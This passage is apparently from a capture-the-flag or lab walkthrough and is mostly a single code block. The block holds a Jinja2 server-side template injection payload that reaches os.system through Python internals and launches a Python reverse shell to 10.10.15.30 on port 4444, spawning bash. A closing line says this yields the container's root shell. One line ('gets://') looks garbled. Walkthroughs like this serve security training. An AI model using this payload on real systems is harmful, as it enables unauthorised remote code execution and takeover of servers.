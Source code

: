 ![](attachment/0ff84977b055f472760647c885de0ccc.png)

```python
gets://10.10.15.30
------------------
{{ self.__init__.__globals__.__builtins__.__import__('os').system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.30",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")\'') }}
```

Now the exploit will send you the container's root shell on listening terminal:

![](attachment/67e8a5a63c7690ca25b2551630cd6610.png)
